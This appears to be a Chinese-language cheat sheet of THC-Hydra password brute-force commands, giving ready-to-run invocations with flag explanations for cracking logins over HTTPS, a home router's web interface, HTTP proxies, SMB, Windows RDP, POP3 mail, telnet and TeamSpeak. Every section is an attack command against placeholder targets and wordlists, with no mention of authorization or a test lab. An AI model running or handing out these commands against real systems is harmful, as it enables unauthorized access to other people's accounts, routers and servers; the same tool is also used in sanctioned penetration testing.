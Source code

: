 
**https协议破解**

```text
破解https
 
hydra -m /index.php -l 用户名 -P 密码字典.txt IP地址 https
```

**路由器破解**

```text
hydra -l admin -x 6:10:1a.~!@#$%^&()-= -t 8 192.168.1.1 http-get /
-l admin 为尝试破解的用户名。
 
# -x 6:10:1a. 表示枚举的密码由 数字、小写字母和单字符’.'等等组成，长度为 6 - 10 位。-t 8 表示分 8 个并行任务进行爆破尝试。192.168.1.1 为 Router 地址。http-get 为破解方式（协议）
```

**http-proxy协议破解**

```text
破解http-proxy：
 
hydra -l admin -P 字典.txt http-proxy://IP地址
```

**smb破解**

```text
破解smb：
 
hydra -l 用户名字典 -P 密码字典 IP地址 smb
```

**Windows远程桌面**

```text
破解rdp(windows远程登录)：
 
hydra ip地址 rdp -l administrator -P 密码字典.txt -V
```

**邮箱pop3**

```text
破解邮箱pop3：
 
hydra -l 用户名 -P 密码字典.txt my.pop3.mail pop3
```

**telnet破解**

```text
hydra ip地址 telnet -l 用户字典.txt -P 密码字典.txt -t 32 -s 23 -e ns -f -V
```

**语音通讯工具teamspeak**

```text
hydra -l 用户名字典 -P 密码字典.txt -s 端口号 -vV ip teamspeak
```
